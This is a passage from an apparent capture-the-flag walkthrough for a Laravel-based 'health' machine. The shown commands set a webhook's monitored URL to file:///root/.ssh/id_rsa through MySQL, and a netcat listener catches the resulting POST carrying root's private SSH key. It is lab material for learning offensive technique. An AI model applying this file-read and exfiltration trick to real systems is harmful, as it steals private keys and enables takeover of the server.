 Create a webhook test.
![image](/img/last-webhook.png)
Connect to mysql and change the value of monitoredURL to our payload
```bash
susanne@health:/var/www/html/app/Console$ mysql -u laravel -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 778
mysql> use laravel;
Reading table information for completion of table and column names         
You can turn off this feature to get a quicker startup with -A
Database changed                                                    
mysql> UPDATE tasks SET monitoredUrl = 'file:///root/.ssh/id_rsa';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0  
```
Wait a couple of second and we will receive the id_rsa key of root user on our netcat listener

```bash
user@ubuntu:~$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.176
POST / HTTP/1.1
Host: 10.10.10.17
Accept: */*
Content-type: application/json
Content-Length: 1835
Expect: 100-continue

```